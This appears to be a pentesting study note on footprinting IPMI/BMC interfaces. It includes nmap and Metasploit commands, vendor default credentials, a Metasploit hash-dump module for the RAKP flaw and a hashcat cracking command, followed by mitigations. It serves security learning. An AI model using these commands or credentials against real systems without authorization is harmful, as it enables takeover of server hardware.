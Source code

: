 ```yaml
---
title: IPMI (Intelligent Platform Management Interface)
published: 2025-04-23
description: "What is IPMI?"
image: "../../../assets/images/footprinting/footprinting.jpg"
tags: ["footprinting"]
category: Footprinting
draft: false
---
```

# IPMI (Intelligent Platform Management Interface)

### 🔍 What is IPMI?

**IPMI** is a **standardized hardware-based system management interface** used for remote monitoring and administration of servers. It operates independently of the host's CPU, OS, BIOS, and firmware, enabling sysadmins to manage systems—even when they're powered off or unresponsive.

> Introduced by: Intel in 1998
> 
> 
> **Commonly found on**: HP iLO, Dell DRAC, Supermicro IPMI
> 
> **Default Port**: **`623/UDP`**
> 

### 💡 Use Cases for IPMI

IPMI is essential in various system states:

- 🧬 **Before OS boots**: Modify BIOS settings remotely
- 📴 **Powered down hosts**: Still accessible for remote power on/off
- ⚠️ **Post-system failure**: Diagnose issues without OS access

Also used to:

- Monitor system **temperature, voltage, fans, power**
- Review **hardware logs** and **inventory**
- Send alerts via **SNMP**

### 🔧 Key IPMI Components

| Component | Function |
| --- | --- |
| **BMC** (Baseboard Management Controller) | Embedded microcontroller that runs IPMI |
| **ICMB** | Interface for inter-chassis communication |
| **IPMB** | Internal bus that connects IPMI components |
| **IPMI Memory** | Stores logs and configuration data |
| **Comm Interfaces** | Serial, LAN, PCI Mgmt, ICMB |

### 🕵️‍♂️ Footprinting IPMI with Nmap

```markdown
sudo nmap -sU --script ipmi-version -p 623 <target>
```

### 🔍 Metasploit: IPMI Version Scan

```markdown
use auxiliary/scanner/ipmi/ipmi_version
set rhosts <target>
set rport 623
run
```

✅ This reveals the **IPMI version** and authentication details.

### 🔑 Default Credentials to Test

| Product | Username | Password |
| --- | --- | --- |
| **Dell iDRAC** | `root` | `calvin` |
| **HP iLO** | `Administrator` | Randomized 8-char (A-Z, 0-9) |
| **Supermicro** | `ADMIN` | `ADMIN` |

### 🧨 Dangerous Vulnerability: RAKP Hash Disclosure

IPMI v2.0 has a flaw where the **server sends a SHA1/MD5 hash before authentication**. This hash can be:

- Extracted and cracked offline
- Used to access BMC
- **Exploited using Hashcat**:

```markdown
hashcat -m 7300 ipmi.txt -a 3 ?1?1?1?1?1?1?1?1 -1 ?d?u
```

🔓 Example: Cracks 8-char uppercase+number password.

### 🪓 Dumping Hashes with Metasploit

```markdown
use auxiliary/scanner/ipmi/ipmi_dumphashes
set rhosts <target>
set rport 623
run
```

### 🔁 Why This Matters

Gaining BMC access = **physical access** to the host:

- Reboot / shutdown systems
- Reinstall OS remotely
- Access serial console or web UI

🧠 **Tip**: Always test **password reuse** once an IPMI credential is cracked.

### ⚠️ Mitigations

- Change default IPMI credentials immediately
- Disable IPMI if not in use
- Use strong, non-reusable passwords
- Apply **network segmentation** to isolate BMC interfaces
- Monitor IPMI traffic on port 623/UDP

### 🧪 Final Thoughts

IPMI is powerful, but risky. It's often overlooked during internal pentests—**don’t make that mistake**. A single exposed BMC could compromise your entire infrastructure.